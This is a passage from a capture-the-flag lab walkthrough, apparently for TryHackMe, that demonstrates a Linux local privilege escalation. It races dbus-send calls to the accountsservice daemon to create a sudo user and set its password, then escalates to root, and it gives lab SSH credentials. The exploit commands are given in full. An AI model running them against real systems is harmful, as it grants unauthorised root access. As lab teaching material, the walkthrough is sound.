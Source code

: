 Let's try this. We need to send the dbus message, then kill it about halfway through:<br>

- <code>dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!</code></p>

<p align="center"><img width="800px" src="https://github.com/user-attachments/assets/d8427170-52c0-497e-b89e-70ee485850d"></p>

<p>To explain the above command, we sent the dbus message in a background job (using the ampersand to background the command). We then told it to sleep for 5 milliseconds (<code>sleep 0.005s</code>), then kill the previous process (<code>$!</code>). This successfully created the new user, adding them into the sudo group.<br>
We should note down at this point that the user ID of the new user in this instance is 1000.<br><br>
Now all we need to do is give the user a password and we should be good to go!</p>


<br>


<p>We need a password hash here, so let's generate a Sha512Crypt hash for our chosen password (<code>Expl01ted</code>code>):<br>

- <code>openssl passwd -6 Expl01ted</code></p>

<p align="center"><img width="800px" src="https://github.com/user-attachments/assets/38025157-88e7-4b36-971e-1c10ab3af453"></p>

<p>Using openssl, we generate a password of type 6 (SHA512-crypt) and our plaintext password (<code>Expl01ted</code>).<br>

Now let's finish this! 5 milliseconds worked last time, so it should work here too:<br>

- <code>dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'$6$TRiYeJLXw8mLuoxS$UKtnjBa837v4gk8RsQL2qrxj.0P8c9kteeTnN.B3KeeeiWVIjyH17j6sLzmcSHn5HTZLGaaUDMC4MXCjIupp8.' string:'Ask the pentester' & sleep 0.005s; kill $!</code></p>

<p align="center"><img width="800px" src="https://github.com/user-attachments/assets/c39bd72f-933b-4b55-910e-e8c4a2227d28"></p>


<p>With a hop, su, and a <code>sudo -s</code>code>, we have root!</p>

<p><em>Answer the question below</em></p>

<p>4.1. Read the information above<br>
<code>No answer needed</code></p>

<br>

<h2> Task 5 . Practical . Do it yourself!</h2>
<p>You've seen the theory, so now it's time to try for yourself!<br><br>

If you would like to SSH into the target machine, the credentials are:<br>

- Username: tryhackme<br>
- Password: TryHackMe123!<br><br>

Otherwise please feel free to use the in-browser access on the right hand side of the screen. Bear in mind that the AttackBox can be deployed in tandem with the target machine.<br>
